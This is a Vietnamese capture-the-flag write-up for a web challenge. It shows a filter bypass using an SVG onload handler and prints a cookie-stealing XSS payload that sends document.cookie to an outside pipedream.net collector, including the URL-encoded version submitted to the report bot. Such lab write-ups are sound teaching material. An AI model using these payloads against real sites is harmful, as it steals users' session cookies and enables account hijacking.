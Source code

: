 # Web
## 1.Hi Hi Hi
    http://146.190.115.228:20109
### Solution:
+ Mình nhập thử text `hacked` thì thấy hiện trên Dom nên mình đoán có thể là lỗi reflect:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325544380_1539785776490524_506576420518357102_n.png?stp=dst-png_p403x403&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=mxRJjvm2h5sAX-IFnMw&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdShnEbKx5Gp4lBumSBFoVxAwb74bLspb0fMNVfKDYhvdw&oe=63EDEAC8)
+ Mình thử nhập `<script>alert(10)</script>` thì bị filter:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325232288_1517370485416235_7328303388423511686_n.png?stp=dst-png_s240x240&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=H8c6WsiYx8oAX-QqT_I&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRiX6GujoIBAJpe-w_pNUJMuDinPcWTvP6VU6nypt-5YA&oe=63EDEFAB)
+ Sau mình dùng burpsuite thì thấy message in ra nằm trong thẻ div:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324403300_562610902450716_1189522020715437705_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=6yIEw5U1lVIAX9zld-t&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTY0ssYhl3oZNB1qfBO3-_ceuEbpJthnSPDJ7RMv_YsZg&oe=63EDE9DC)
+ Mình thử dùng thẻ img mà bị filter,sau mình dùng thẻ svg `<svg onload="alert(10)"/>` thì được thật:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325477432_2098078310381765_4736637555871183436_n.png?stp=dst-png_s320x320&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=jKu7GXo4pP8AX9qvg-l&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSkixswTyARzDg7zpDQLwZu4b0kxf1lCMFazZyQjhCN2A&oe=63EDF35D)
+ Nên mình thử lấy cookie của máy mình `<svg onload="window.location='https://eoudjoqqnbfym00.m.pipedream.net/?cookie='.concat(document.cookie)"/>` thi get duoc cookie:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323534900_8642520609151521_3244213864135894936_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lRuhKcBSIhoAX97nNtA&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ6GC-6hq-578_lPfn9EAdr3iu_mZKfmt4P1PExbJeDzA&oe=63EDCE99)
+ Nên mình thử gửi report luôn payload:
`http://127.0.0.1:13337/?message=http://146.190.115.228:20109/?message=%3Csvg+onload%3D%22window.location%3D%27https%3A%2F%2Fexxxxxxxxxxxx00.m.pipedream.net%2F%3Fcookie%3D%27.concat%28document.cookie%29%22%2F%3E` thì nhận được flag.

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325683778_853163225933721_2454076518486329042_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=P1Ocdj5eECoAX8E_sJb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQxmVbprZ3IDsyaHAJItwRZj36LoTcpkwy5tE0aWTvcgg&oe=63EDD4F2)

> Flag: KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}


